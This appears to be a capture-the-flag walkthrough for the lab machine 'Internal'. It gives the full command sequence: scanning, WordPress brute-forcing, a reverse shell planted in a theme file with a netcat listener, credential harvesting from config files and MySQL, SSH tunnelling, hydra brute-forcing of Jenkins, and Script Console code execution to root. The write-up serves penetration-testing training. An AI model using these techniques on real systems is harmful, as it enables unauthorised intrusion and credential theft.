

# Internal

Preparation for eCPPT

# Recon

### PortScan

`nmap -sCV 10.10.168.146`

Lets add the name of the machine to `/etc/hosts`

## Web

### Directory Discovery

`ffuf -u [http://internal.thm/FUZZ](http://internal.thm/FUZZ) -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt`

### Wordpress

By using username `admin` we could enumerate the user, now its time to find the password

**Brute force**

`wpscan --url [http://internal.thm/blog/wp-login.php](http://internal.thm/blog/wp-login.php) --usernames admin --passwords /usr/share/wordlists/rockyou.txt`

Version

**Credentials**

`admin:my2boys`

**Access to WordPress**

Inside the theme customization edit and put a reverse shell inside the file `404.php`

Now open a listener on the attacker machine

`nc -lvnp 9999`

Open the page that you put the reverse shell

We can verify that we got a shell

## Privileges Escalation

Searching for mysql credentials

`cat wp-config.php`

### SQL

Login to sql using those credentials

`mysql -u wordpress -p`

`wordpress123`

Extracting **admin** credentials

Password Hash > `$P$BOFWK.UcwNR/tV/nZZvSA6j3bz/WIp/`

### Aubreanna User

`cat /opt/wp-save.txt`

`aubreanna:bubb13guM!@#123`

Login as SSH 

`ssh aubreanna@internal.thm`

As we look for some files inside the machine we see that there is a internal machine

## Pivoting

### SSH tunnel

With the credentials of the user aubreanna we setup an SSH tunnel for the internal machine

`ssh -L {LOCAL-PORT}:172.17.0.2:{TARGET-PORT} aubreanna@internal.thm`

`ssh -L 80:172.17.0.2:8080 aubreanna@internal.thm`

### Jenkins

### Brute Force

`hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password”`

Now its time for some `RCE`

### RCE

On the manage Jenkins there is a Script Console so lets use it

Now we have to prepare our netcat

`nc -lvnp 9999`

I search for some RCE using Java Language and found this one

So after setting our IP and our Port should be like this, and press `run`

We can confirm that we got a shell on our listener

**Upgrading the shell**

We found the machine has `python2` so we use it to upgrade the shell and set a terminal variable

After some enumeration found a file named note.txt and there are some **root credentials**

`root:tr0ub13guM!@#123`

With those credentials we escalate the privileges of the machine and getting the flag

